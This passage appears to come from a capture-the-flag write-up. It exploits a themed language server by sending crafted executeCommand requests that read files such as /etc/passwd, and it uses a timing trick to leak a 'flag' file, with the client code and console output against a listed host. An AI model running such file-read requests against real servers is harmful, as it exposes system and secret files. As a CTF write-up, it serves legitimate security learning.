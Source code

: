 ```python
        # };

        response = client.send_request("workspace/executeCommand", {
            "Command": "wildwest.loadNewConfig",
            "Arguments": [{
                "EnforcePrefix": True,
                "RequiredPrefix": "a",
                "MinimumNameLength": 1,
                "UseFileSystem": True,
            }]
        })
        print("ExecuteCommand response:", response)

        diagnostics = client.read_response()
        print("Diagnostics response:", diagnostics)
        
        diagnostics = client.read_response()
        print("Diagnostics response:", diagnostics)

        response = client.send_request("workspace/executeCommand", {
            "Command": "wildwest.quickDraw",
            # Filename, LineNumber, ?
            "Arguments": ["/etc/passwd", 0, "hello there"]
        })
        print("ExecuteCommand response:", response)
        print(client.read_response())

        # shutdown
        response = client.send_request("shutdown", None)
        print("Shutdown response:", response)
    finally:
        client.close()
```
 
I am skipping over some stuff here, but the code is self explanatory. 
 
# Exploitation
Exploitation was as easy as running two versions of the above code twice, once with a normal file (/etc/passwd works) and one with "flag". You run the one containing flag first, setting the error and triggering the delay, then you run the other file. File one (ran slightly after):
 
```sh
h@DESKTOP-TH1NKC3 ~/Downloads> python test.py
Host: 54.221.151.72
Port: 7003
Initialization response: {'id': 1, 'result': {'capabilities': {'textDocumentSync': 1, 'hoverProvider': True, 'renameProvider': True, 'completionProvider': {'resolveProvider': False, 'triggerCharacters': ['w', 'r', '_', 'f']}, 'executeCommandProvider': {'commands': ['wildwest.quickDraw']}}}, 'jsonrpc': '2.0'}
ExecuteCommand response: {'id': 4, 'result': '🤠 Loaded new config! Now prefix="a" minLen=1 enforce=true\n', 'jsonrpc': '2.0'}
Diagnostics response: {'jsonrpc': '2.0', 'method': 'textDocument/publishDiagnostics', 'params': {'uri': 'file:///test.go', 'diagnostics': [{'range': {'start': {'line': 12, 'character': 5}, 'end': {'line': 12, 'character': 73}}, 'severity': 2, 'message': "Wild West Warning: 'sheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890' should be renamed to 'asheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890_outlaw'.", 'source': 'WildWestCodeWrangler'}]}}
Diagnostics response: {'jsonrpc': '2.0', 'method': 'textDocument/publishDiagnostics', 'params': {'uri': 'file:///test.go', 'diagnostics': [{'range': {'start': {'line': 12, 'character': 5}, 'end': {'line': 12, 'character': 73}}, 'severity': 2, 'message': "Wild West Warning: 'sheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890' should be renamed to 'asheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890_outlaw'.", 'source': 'WildWestCodeWrangler'}]}}
ExecuteCommand response: {'jsonrpc': '2.0', 'method': 'window/showMessage', 'params': {'type': 3, 'message': "🤠 YEEHAW! That line's wilder than a buckin' bronco!\n\nYour line:\n> "}}
```